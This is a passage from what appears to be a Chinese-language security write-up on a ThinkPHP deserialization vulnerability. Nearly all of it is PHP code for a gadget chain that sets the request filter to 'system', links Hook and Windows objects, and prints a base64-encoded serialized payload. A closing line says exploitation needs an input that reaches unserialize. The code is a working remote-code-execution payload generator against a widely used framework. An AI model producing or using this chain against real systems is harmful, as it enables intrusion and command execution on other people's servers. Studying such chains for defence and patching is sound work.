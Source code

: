 ```php
    public function __construct()
    {
        $this->files = [new Pivot()];
    }
}
namespace think;
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = new Hook();
        $this->hook = ["append"=>[$this,"isAjax"]];
    }

}
namespace think;
class Hook{
    private $tags = ["var_ajax"=>'a'];
    public function get($tag = '')
    {
        if (empty($tag)) {
            //获取全部的插件信息
            return $this->tags;
        } else {
            return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
        }
    }
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```

漏洞的利用前提是存在一个点可以输入点可以反序列化。

![](images/15893516550027.png)


